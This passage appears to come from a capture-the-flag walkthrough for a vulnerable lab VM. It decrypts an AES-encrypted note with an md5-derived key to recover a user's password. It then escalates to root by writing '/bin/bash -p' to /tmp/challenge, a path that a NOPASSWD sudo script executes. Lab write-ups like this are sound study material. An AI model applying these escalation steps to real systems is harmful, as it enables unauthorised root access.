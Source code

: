     So convert string "ippsec" into md5 hash and use it to gain yourself in your real form.


    www-data@ubuntu:/home/saket$ cat enc.txt
    cat enc.txt
    nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4=

    $ echo -ne 'ippsec' | md5sum
    366a74cb3c959de17d61db30591c39d1  -

    $ echo -en 366a74cb3c959de17d61db30591c39d1 | od -A n -t x1 | tr -d '[:blank:]'                                     
    33363661373463623363393539646531
    37643631646233303539316333396431


    $ echo "nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4=" | openssl enc -aes-256-ecb -d -a -K 3336366137346362336339353964653137643631646233303539316333396431
    Dont worry saket one day we will reach to
    our destination very soon. And if you forget 
    your username then use your old password
    ==> "tribute_to_ippsec"

## Connect with saket and get root

    www-data@ubuntu:/home/saket$ su saket
    Password: tribute_to_ippsec
    saket@ubuntu:~$ id
    uid=1001(saket) gid=1001(saket) groups=1001(saket)

    saket@ubuntu:~$ sudo -l
    Matching Defaults entries for saket on ubuntu:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User saket may run the following commands on ubuntu:
        (root) NOPASSWD: /home/victor/undefeated_victor
    saket@ubuntu:~$ ls -al /home/victor/undefeated_victor
    -rwsr-x--x 1 root root 79 Aug 30  2019 /home/victor/undefeated_victor

    saket@ubuntu:~$ sudo /home/victor/undefeated_victor
    if you can defeat me then challenge me in front of you
    /home/victor/undefeated_victor: 2: /home/victor/undefeated_victor: /tmp/challenge: not found

    saket@ubuntu:/tmp$ echo '/bin/bash -p' > /tmp/challenge
    saket@ubuntu:/tmp$ chmod +x /tmp/challenge
    saket@ubuntu:/tmp$ sudo /home/victor/undefeated_victor
    if you can defeat me then challenge me in front of you
    root@ubuntu:/tmp# id
    uid=0(root) gid=0(root) groups=0(root)


# Kernel exploit
